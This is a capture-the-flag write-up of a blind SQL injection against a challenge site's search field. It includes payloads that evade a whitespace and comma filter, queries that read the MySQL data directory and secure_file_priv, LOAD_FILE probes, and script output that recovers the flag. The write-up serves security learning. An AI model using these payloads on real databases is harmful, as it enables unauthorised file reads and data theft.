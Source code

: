 `1')/**/AND/**/(SELECT/**/LOAD_FILE("/var/lib/mysql/flag.txt"))/**/LIKE/**/"s%";#`

`1')/**/AND/**/(SELECT/**/LOAD_FILE("/var/lib/mysql/flag.txt"))/**/IS/**/NOT/**/NULL;#`
However both formats did not give anything useful back. The path for the file must be wrong. After talking about how the `load_file` function works and rereading the docs the next step must be to find the directory.

### Exfiltration - Getting directory on server

Since `load_file` requires a full path to the file, I know what the first char must be: `/`
First attempt:
`1')/**/AND/**/(SELECT/**/concat('$(pwd)'))/**/LIKE/**/'/%';#`
This did not work though, \*sigh\*

After spending a lot of time digging through docs and googling around I found the syntax I was looking for. My path for finding this was looking up what variables were in mysql, and after that finding different ways to access them.
The syntax I was looking for:
`SELECT @@GLOBAL.datadir`

Building out the query:
```
AND (SELECT @@GLOBAL.datadir) LIKE "/%"
AND/**/(SELECT/**/@@GLOBAL.datadir)/**/LIKE/**/"/%"
`1')/**/AND/**/(SELECT/**/@@GLOBAL.datadir)/**/LIKE/**/"/%";#`
```
This returned true!. So now I customized my script to extract the the data directory. I changed the format of the query a bit so I could reuse the logic I already had there.
After I got the data directory, I realized it might be a good idea to get the secure_file_priv variable as well to see if I could even read from the data directory. That gave an interesting result. The path `/var/lib/mysql-files/flag/` using this I checked for the file once again:
`1')/**/AND/**/(SELECT/**/LOAD_FILE("/var/lib/mysql-files/flag/flag.txt"))/**/IS/**/NOT/**/NULL;#`
and this time it evaluated to true!

### Exfiltration - Reading the txt file
Now to read from the file
I just used the same method that was used to extract the other values.
```
$ python get_flag_txt.py 
...
[83, 101, 99, 117, 114, 105, 110, 101, 116, 115, 123, 83, 101, 99, 117, 82, 51, 95, 89, 111, 117, 114, 83, 81, 76, 33, 125, 10]
Securinets{SecuR3_YourSQL!}
```


## Solution (tl;dr version)

The search field on the web page had a sql injection vulnerability.

Testing payloads on the input some blacklisted characters were found: whitespace and comma.

A boolean inferential injection was created. Using the results of a search to determine if it evaluated to true or not.
If true the search results would contain a thought.
If false the search results would be blank.
